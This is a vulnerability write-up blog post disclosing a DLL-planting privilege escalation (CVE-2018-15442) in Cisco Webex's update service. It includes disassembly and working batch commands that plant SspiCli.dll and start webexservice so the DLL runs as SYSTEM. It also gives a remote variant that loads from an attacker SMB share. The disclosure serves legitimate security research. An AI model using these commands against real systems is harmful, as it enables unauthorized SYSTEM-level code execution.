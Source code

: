 ```yaml
---
layout: post
title: "WebExec Reloaded :: Cisco Webex Meetings Desktop App Update Service DLL Planting Elevation of Privilege Vulnerability"
date: 2018-12-03 10:00:00 -0500
categories: blog
excerpt_separator: <!--more-->
---
```


<img class="excel" alt="Cisco Webex" src="/assets/images/cisco-webex-logo.jpg">
<p class="cn" markdown="1">Some time ago [Ron Bowes](https://twitter.com/iagox86) found a vulnerability in Cisco WebEx Meetings Desktop App that could allow local privilege escalation, or, if you have a user account you can use psexec to gain remote code execution as SYSTEM. They named the vulnerability **WebExec** (cute) and even gave it a pretty [website](https://webexec.org/)! The problem? Well, it turns out the patch wasn't so good...</p>
<!--more-->

<p class="cn">TL;DR</p>

<p class="cn" markdown="1">*I walk through the re-discovery and exploitation of [CVE-2018-15442](/advisories/src-2018-0034) which is a bypass for the original bug. Since the original vulnerability and the bypass are so similar, Cisco decided to not issue a new CVE and I tend to agree with this choice. Technically its a remote code execution but the way this bug is triggered makes more sense for exploitation to come from a local context.*</p>

### Introduction

<p class="cn" markdown="1">The [Webex site](https://www.webex.com/products/meetings/index.html) explains what webex is, quickly summing it up as:</p>

> ...With Webex Meetings, joining is a breeze, audio and video are clear, and screen sharing is easier than ever. We help you forget about the technology, to focus on what matters...

<p class="cn" markdown="1">Please Cisco, at least don't forget about the security of your technology!</p>

<p class="cn" markdown="1">So, after reading Ron's [blog post](https://blog.skullsecurity.org/2018/technical-rundown-of-webexec) we know that the underlying issue was that the **WebExService** takes a user controlled binary and executes it as SYSTEM. I really don't think it gets easier than that for a vulnerability, hooray Cisco!</p>

### Re-discovering the Vulnerability

<p class="cn" markdown="1">According to Ron the patched version checks for a signed executable by WebEx.</p>

> The patched version of WebEx still allows remote users to connect to the process and start it. However, if the process detects that it's being asked to run an executable that is not signed by WebEx, the execution will halt. Unfortunately, that gives us no information about whether a host is vulnerable!

<p class="cn" markdown="1">Well, let's do what we normally do and check the patch for ourselves. After installing the latest [version](https://akamaicdn.webex.com/client/WBXclient-33.6.2-16/webexapp.msi) at the time from Cisco's CDN, we can check that we have no more updates to do:</p>

{% include image.html
            img="assets/images/latest-webex.png"
            title="Version 33.6.2.16 was the latest at the time"
            caption="Version 33.6.2.16 was the latest at the time"
            style="width:50%;height:50%" %}

<p class="cn" markdown="1">Diving into the binary stored at `C:\Program Files\Webex\Webex\Applications\WebExService.exe` we see some interesting things. The first thing I noticed is that the code only looks for one argument type, that is, `software-update`.</p>

```
.text:00402DC4 loc_402DC4:                                          ; CODE XREF: sub_402D80+1C
.text:00402DC4                 push    offset aSoftwareUpdate       ; "software-update"
.text:00402DC9                 push    dword ptr [esi+8]            ; lpString1
.text:00402DCC                 call    ds:lstrcmpiW
.text:00402DD2                 test    eax, eax
.text:00402DD4                 jnz     loc_402E66
.text:00402DDA                 push    208h                         ; Size
.text:00402DDF                 push    eax                          ; Val
.text:00402DE0                 lea     eax, [ebp+Dst]
.text:00402DE6                 push    eax                          ; Dst
.text:00402DE7                 call    memset
.text:00402DEC                 add     esp, 0Ch
.text:00402DEF                 lea     eax, [ebp+Dst]
.text:00402DF5                 push    offset pszFile               ; "ptupdate.exe"
.text:00402DFA                 push    dword ptr [esi+10h]          ; pszDir
.text:00402DFD                 push    eax                          ; pszDest
.text:00402DFE                 call    ds:PathCombineW
.text:00402E04                 sub     esp, 18h
.text:00402E07                 lea     eax, [ebp+Dst]
.text:00402E0D                 mov     ecx, esp                     ; Dst
.text:00402E0F                 mov     [esi+10h], eax
.text:00402E12                 push    eax                          ; Src
.text:00402E13                 call    sub_402EB0
.text:00402E18                 call    sub_402310                   ; signature check on ptupdate.exe
.text:00402E1D                 add     esp, 18h
.text:00402E20                 test    eax, eax
.text:00402E22                 jz      short loc_402E46             ; jump if we don't pass the check!
.text:00402E24                 lea     eax, [ebp+var_214]
.text:00402E2A                 mov     [ebp+var_214], 0
.text:00402E34                 push    eax
.text:00402E35                 push    ecx
.text:00402E36                 lea     ecx, [edi-3]
.text:00402E39                 lea     edx, [esi+0Ch]
.text:00402E3C                 call    sub_402960                   ; execute "ptupdate.exe" as winlogon.exe
```

<p class="cn" markdown="1">Later, the code does a PathCombineW call with an argument that we supply on the command line with the string `ptupdate.exe`. That's about where I stopped reversing. I didn't even bother to reverse the signature check function or the function that does the impersonation and execution. I already had a plan of attack.</p>

### Exploitation

<p class="cn" markdown="1">So at this point, all we needed to do was copy the `C:\Program Files\Webex\Webex\Applications\*` (including the ptUpdate.exe binary) into a user controlled folder that the guest or local user owns (this can be a sandboxed directory also) and either find a DLL planting vulnerability or force one by deleting one of the DLL's.</p>

<p class="cn" markdown="1">I don't like unexpected application behavior when I can avoid it, so I simply looked for a DLL planting issue that wouldn't affect application state. To do that I ran my litte proof of concept:</p>

```bat
mkdir %cd%\\si
copy C:\\PROGRA~1\\Webex\\Webex\\Applications\\* %cd%\\si\\*
sc start webexservice a software-update 1 %cd%\\si
```

<p class="cn" markdown="1">As it turns out, `SspiCli.dll` looked like a decent target.</p>

{% include image.html
            img="assets/images/DLL-planting.png"
            title="ptUpdate.exe can't find SspiCli.dll in the cwd"
            caption="ptUpdate.exe can't find SspiCli.dll in the cwd"
            style="width:100%;height:100%" %}

<p class="cn" markdown="1">Of course, we could have just cross referenced the 43 LoadLibraryW calls and leveraged one of those too. Unfortunately my proof of concept exploit needed to be 4 commands, instead of 3. Booooooo Cisco!</p>

```bat
mkdir %cd%\\si
copy C:\\PROGRA~1\\Webex\\Webex\\Applications\\* %cd%\\si\\*
copy SspiCli.dll %cd%\\si
sc start webexservice a software-update 1 %cd%\\si
```

{% include image.html
            img="assets/images/webex-lpe.png"
            title="LPE as SYSTEM via DLL planting"
            caption="LPE as SYSTEM via DLL planting"
            style="width:100%;height:100%" %}

<p class="cn" markdown="1">As mentioned, you could technically leverage this for RCE as SYSTEM as well, but its authenticated anyway. `sc \\victim start webexservice a software-update 1 "\\attacker\share\si"`.</p>

### Conclusion

<p class="cn" markdown="1">Whenever you control a path to a file operation that's being performed by a high privileged service, you are bound to be vulnerable to attacks. This vulnerability is so simple and powerful in that it can be triggered from remote using SMB as well as allow for a nice sandbox escape. I'm convinced that logical vulnerabilities will be the future of serious exploitation since they really do side step 99% of operating system level mitigations.</p>

<p class="cn" markdown="1">I find it incredible that Cisco couldn't patch this right the first time. All they needed to do was use a fixed path to the `C:\Program Files\Webex\Webex\Applications` directory and remove user controlled input all together. This vulnerability was found in about 10 minutes and I couldn't help but rename the vulnerability to *WebExec reloaded*, get it? ...re-loading an arbitrary DLL by an attacker!?</p>

<p class="cn" markdown="1">Finally, a big thanks to [iDefense](https://vcp.idefense.com/login.jsf) for helping with the coordination of the vulnerability!</p>

### References

<div markdown="1" class="cn">
- [https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20181024-webex-injection](https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20181024-webex-injection)
- [https://blog.skullsecurity.org/2018/technical-rundown-of-webexec](https://blog.skullsecurity.org/2018/technical-rundown-of-webexec)
</div>